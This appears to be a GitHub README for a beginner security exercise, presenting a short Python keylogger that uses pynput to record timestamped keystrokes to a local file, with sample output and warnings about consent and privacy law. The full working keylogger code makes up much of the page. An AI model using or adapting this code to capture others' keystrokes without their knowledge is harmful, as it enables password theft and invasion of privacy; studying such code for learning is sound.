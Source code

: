 # PRODIGY_CS_04

Basic Keylogger Program

This program records and logs keystrokes, saving them to a file. Please note that keyloggers can be used for malicious purposes, and it's essential to use this program responsibly and with the user's consent.

Working:

Importing necessary libraries: The program uses the pynput library to listen to keyboard events and the datetime library to timestamp the logs.
Defining the logging function: The on_press function is called whenever a key is pressed. It logs the key pressed, along with the timestamp, to a file named keylog.txt.
Starting the keylogger: The Listener object is created, and the start method is called to begin listening to keyboard events.
Code:

python

Verify

Open In Editor
Edit
Run
Copy code
import pynput
from pynput.keyboard import Key, Listener
import datetime

def on_press(key):
    with open('keylog.txt', 'a') as f:
        f.write(f"{datetime.datetime.now()} - {key}\n")

def on_release(key):
    if key == Key.esc:
        # Stop listener
        return False

# Collect events until released
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
How it works:

Run the program, and it will start listening to keyboard events.
Whenever a key is pressed, the on_press function is called, logging the key pressed and the timestamp to the keylog.txt file.
To stop the keylogger, press the Esc key.
Example output:

keylog.txt file:


Verify

Open In Editor
Edit
Copy code
2023-02-20 14:30:00.123456 - a
2023-02-20 14:30:00.234567 - b
2023-02-20 14:30:00.345678 - c
2023-02-20 14:30:00.456789 - Space
2023-02-20 14:30:00.567890 - d
Ethical considerations:

Keyloggers can be used to invade users' privacy, so it's essential to use this program responsibly and with the user's consent.
Never use a keylogger to monitor someone's activity without their knowledge and permission.
Be aware of local laws and regulations regarding keyloggers and privacy.
Permissions:

Before running this program, ensure you have the necessary permissions to monitor keyboard events.
Be cautious when running this program on systems with sensitive information, as it may be considered a security risk.
Remember, keyloggers can be powerful tools, but they require responsible use and respect for users' privacy.
 
